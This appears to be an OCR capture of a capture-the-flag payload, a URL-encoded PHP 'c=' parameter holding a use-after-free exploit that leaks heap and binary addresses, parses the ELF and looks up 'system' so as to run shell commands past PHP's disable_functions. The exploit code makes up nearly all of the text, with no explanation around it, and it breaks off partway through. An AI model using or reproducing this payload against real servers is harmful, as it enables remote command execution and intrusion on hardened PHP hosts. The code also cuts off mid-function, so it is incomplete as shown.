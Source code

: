 ```
c=function%20ctfshow%28%24cmd%29%20%7Bglobal%20%24abc%2C%20%24helper%2C%20%24backtrace%3Bclass%20Vuln%20%7Bpublic%20%24a%3Bpublic%20function%20__destruct%28%29%20%7B%20global%20%24backtrace%3B%20unset%28%24this-%3Ea%29%3B%24backtrace%20%3D%20%28new%20Exception%29-%3EgetTrace%28%29%3Bif%28%21isset%28%24backtrace%5B1%5D%5B%27args%27%5D%29%29%20%7B%24backtrace%20%3D%20debug_backtrace%28%29%3B%7D%7D%7Dclass%20Helper%20%7Bpublic%20%24a%2C%20%24b%2C%20%24c%2C%20%24d%3B%7Dfunction%20str2ptr%28%26%24str%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208%29%20%7B%24address%20%3D%200%3Bfor%28%24j%20%3D%20%24s-1%3B%20%24j%20%3E%3D%200%3B%20%24j--%29%20%7B%24address%20%3C%3C%3D%208%3B%24address%20%7C%3D%20ord%28%24str%5B%24p%2B%24j%5D%29%3B%7Dreturn%20%24address%3B%7Dfunction%20ptr2str%28%24ptr%2C%20%24m%20%3D%208%29%20%7B%24out%20%3D%20%22%22%3Bfor%20%28%24i%3D0%3B%20%24i%20%3C%20%24m%3B%20%24i%2B%2B%29%20%7B%24out%20.%3D%20sprintf%28%22%25c%22%2C%28%24ptr%20%26%200xff%29%29%3B%24ptr%20%3E%3E%3D%208%3B%7Dreturn%20%24out%3B%7Dfunction%20write%28%26%24str%2C%20%24p%2C%20%24v%2C%20%24n%20%3D%208%29%20%7B%24i%20%3D%200%3Bfor%28%24i%20%3D%200%3B%20%24i%20%3C%20%24n%3B%20%24i%2B%2B%29%20%7B%24str%5B%24p%20%2B%20%24i%5D%20%3D%20sprintf%28%22%25c%22%2C%28%24v%20%26%200xff%29%29%3B%24v%20%3E%3E%3D%208%3B%7D%7Dfunction%20leak%28%24addr%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208%29%20%7Bglobal%20%24abc%2C%20%24helper%3Bwrite%28%24abc%2C%200x68%2C%20%24addr%20%2B%20%24p%20-%200x10%29%3B%24leak%20%3D%20strlen%28%24helper-%3Ea%29%3Bif%28%24s%20%21%3D%208%29%20%7B%20%24leak%20%25%3D%202%20%3C%3C%20%28%24s%20%2A%208%29%20-%201%3B%20%7Dreturn%20%24leak%3B%7Dfunction%20parse_elf%28%24base%29%20%7B%24e_type%20%3D%20leak%28%24base%2C%200x10%2C%202%29%3B%24e_phoff%20%3D%20leak%28%24base%2C%200x20%29%3B%24e_phentsize%20%3D%20leak%28%24base%2C%200x36%2C%202%29%3B%24e_phnum%20%3D%20leak%28%24base%2C%200x38%2C%202%29%3Bfor%28%24i%20%3D%200%3B%20%24i%20%3C%20%24e_phnum%3B%20%24i%2B%2B%29%20%7B%24header%20%3D%20%24base%20%2B%20%24e_phoff%20%2B%20%24i%20%2A%20%24e_phentsize%3B%24p_type%20%20%3D%20leak%28%24header%2C%200%2C%204%29%3B%24p_flags%20%3D%20leak%28%24header%2C%204%2C%204%29%3B%24p_vaddr%20%3D%20leak%28%24header%2C%200x10%29%3B%24p_memsz%20%3D%20leak%28%24header%2C%200x28%29%3Bif%28%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%206%29%20%7B%20%24data_addr%20%3D%20%24e_type%20%3D%3D%202%20%3F%20%24p_vaddr%20%3A%20%24base%20%2B%20%24p_vaddr%3B%24data_size%20%3D%20%24p_memsz%3B%7D%20else%20if%28%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%205%29%20%7B%20%24text_size%20%3D%20%24p_memsz%3B%7D%7Dif%28%21%24data_addr%20%7C%7C%20%21%24text_size%20%7C%7C%20%21%24data_size%29return%20false%3Breturn%20%5B%24data_addr%2C%20%24text_size%2C%20%24data_size%5D%3B%7Dfunction%20get_basic_funcs%28%24base%2C%20%24elf%29%20%7Blist%28%24data_addr%2C%20%24text_size%2C%20%24data_size%29%20%3D%20%24elf%3Bfor%28%24i%20%3D%200%3B%20%24i%20%3C%20%24data_size%20/%208%3B%20%24i%2B%2B%29%20%7B%24leak%20%3D%20leak%28%24data_addr%2C%20%24i%20%2A%208%29%3Bif%28%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base%29%20%7B%24deref%20%3D%20leak%28%24leak%29%3Bif%28%24deref%20%21%3D%200x746e6174736e6f63%29continue%3B%7D%20else%20continue%3B%24leak%20%3D%20leak%28%24data_addr%2C%20%28%24i%20%2B%204%29%20%2A%208%29%3Bif%28%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base%29%20%7B%24deref%20%3D%20leak%28%24leak%29%3Bif%28%24deref%20%21%3D%200x786568326e6962%29continue%3B%7D%20else%20continue%3Breturn%20%24data_addr%20%2B%20%24i%20%2A%208%3B%7D%7Dfunction%20get_binary_base%28%24binary_leak%29%20%7B%24base%20%3D%200%3B%24start%20%3D%20%24binary_leak%20%26%200xfffffffffffff000%3Bfor%28%24i%20%3D%200%3B%20%24i%20%3C%200x1000%3B%20%24i%2B%2B%29%20%7B%24addr%20%3D%20%24start%20-%200x1000%20%2A%20%24i%3B%24leak%20%3D%20leak%28%24addr%2C%200%2C%207%29%3Bif%28%24leak%20%3D%3D%200x10102464c457f%29%20%7Breturn%20%24addr%3B%7D%7D%7Dfunction%20get_system%28%24basic_funcs%29%20%7B%24addr%20%3D%20%24basic_funcs%3Bdo%20%7B%24f_entry%20%3D%20leak%28%24addr%29%3B%24f_name%20%3D%20leak%28%24f_entry%2C%200%2C%206%29%3Bif%28%24f_name%20%3D%3D%200x6d6574737973%29%20%7Breturn%20leak%28%24addr%20%2B%208%29%3B%7D%24addr%20%2B%3D%200x20%3B%7D%20while%28%24f_entry%20%21%3D%200%29%3Breturn%20false%3B%7Dfunction%20trigger_uaf%28%24arg%29%20%7B%24arg%20%3D%20str_shuffle%28%27AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%27%29%3B%24vuln%20%3D%20new%20Vuln%28%29%3B%24vuln-%3Ea%20%3D%20%24arg%3B%7Dif%28stristr%28PHP_OS%2C%20%27WIN%27%29%29%20%7Bdie%28%27This%20PoC%20is%20for%20%2Anix%20systems%20only.%27%29%3B%7D%24n_alloc%20%3D%2010%3B%20%24contiguous%20%3D%20%5B%5D%3Bfor%28%24i%20%3D%200%3B%20%24i%20%3C%20%24n_alloc%3B%20%24i%2B%2B%29%24contiguous%5B%5D%20%3D%20str_shuffle%28%27AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%27%29%3Btrigger_uaf%28%27x%27%29%3B%24abc%20%3D%20%24backtrace%5B1%5D%5B%27args%27%5D%5B0%5D%3B%24helper%20%3D%20new%20Helper%3B%24helper-%3Eb%20%3D%20function%20%28%24x%29%20%7B%20%7D%3Bif%28strlen%28%24abc%29%20%3D%3D%2079%20%7C%7C%20strlen%28%24abc%29%20%3D%3D%200%29%20%7Bdie%28%22UAF%20failed%22%29%3B%7D%24closure_handlers%20%3D%20str2ptr%28%24abc%2C%200%29%3B%24php_heap%20%3D%20str2ptr%28%24abc%2C%200x58%29%3B%24abc_addr%20%3D%20%24php_heap%20-%200xc8%3Bwrite%28%24abc%2C%200x60%2C%202%29%3Bwrite%28%24abc%2C%200x70%2C%206%29%3Bwrite%28%24abc%2C%200x10%2C%20%24abc_addr%20%2B%200x60%29%3Bwrite%28%24abc%2C%200x18%2C%200xa%29%3B%24closure_obj%20%3D%20str2ptr%28%24abc%2C%200x20%29%3B%24binary_leak%20%3D%20leak%28%24closure_handlers%2C%208%29%3Bif%28%21%28%24base%20%3D%20get_binary_base%28%24binary_leak%29%29%29%20%7Bdie%28%22Couldn%27t%20determine%20binary%20base%20address%22%29%3B%7Dif%28%21%28%24elf%20%3D%20parse_elf%28%24base%29%29%29%20%7B
```